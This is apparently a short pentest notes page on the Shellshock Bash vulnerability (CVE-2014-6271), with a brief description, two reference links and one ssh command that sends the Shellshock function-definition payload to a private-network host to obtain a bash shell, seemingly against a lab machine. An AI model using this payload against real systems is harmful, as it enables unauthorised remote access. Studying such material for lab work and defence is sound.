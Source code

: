 ```yaml
---
description: >-
  Known as the “Bash Bug” or “ShellShock,” the GNU Bash Remote Code Execution
  Vulnerability (CVE-2014-6271) could allow an attacker to gain control over a
  targeted computer if exploited successfully.
---
```


# Shellshock

{% embed url="https://linuxfr.org/news/une-faille-nommee-shellshock" %}

{% embed url="https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability" caption="" %}

```text
# Shellshock exploit using ssh
ssh -i noob noob@192.168.159.134 '() { :;}; /bin/bash'
```

